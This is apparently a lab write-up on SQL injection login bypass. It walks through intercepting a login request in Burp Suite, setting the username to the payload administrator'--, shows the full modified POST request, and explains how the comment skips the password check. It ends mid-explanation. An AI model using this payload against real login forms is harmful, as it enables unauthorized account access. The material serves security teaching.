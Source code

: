 # Lab: SQL Injection Vulnerability Allowing Login Bypass  

## Overview  
This lab demonstrates how SQL injection can be used to bypass authentication and log in as an administrator.  

## Steps to Exploit  

1. **Intercept the Login Request:**  
   - Open **Burp Suite** and enable the **intercept** feature.  
   - Enter any credentials in the login form and submit the request.  
   - Capture the request in Burp Suite.  

2. **Modify the Username Parameter:**  
   - Locate the **username** parameter in the intercepted request.  
   - Change its value to:  

     ```sql
     administrator'--
     ```  

   - The modified request should look like:  

     ```
     POST /login HTTP/1.1
     Host: vulnerable-website.com
     Content-Type: application/x-www-form-urlencoded
     
     username=administrator'--&password=randompassword
     ```  

3. **Forward the Request:**  
   - Click **Forward** in Burp Suite to send the modified request.  
   - If the application is vulnerable, you will be logged in as an **administrator**.  

## Explanation  
- The `--` sequence is a SQL comment that **ignores the rest of the query**, effectively bypassing password verification.  
- If the application constructs the query like this:  

  ```sql
  SELECT * FROM users WHERE username = 'administrator' -- ' AND password = 'randompassword';
